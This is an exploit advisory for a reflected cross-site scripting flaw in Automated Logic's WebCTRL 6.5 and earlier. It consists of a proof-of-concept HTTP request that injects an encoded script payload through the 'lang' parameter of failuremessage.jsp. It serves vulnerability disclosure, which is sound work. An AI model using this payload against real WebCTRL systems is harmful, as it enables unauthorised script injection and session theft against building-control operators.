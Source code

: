 # XSS vulnerability in Automated Logic's WebCTRL product

Exploit Title:  XSS in Automated Logic WebCTRL

CVE: CVE-2020-19762 (RESERVED)

Google Dork: -

Date: 2020-08-25

Exploit Author: İsmail ERKEK 

Vendor Homepage: https://www.automatedlogic.com/

Version: 6.5 and below

Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1

Host: 127.0.0.1

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Referer: http://127.0.0.1/?language=en

Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B
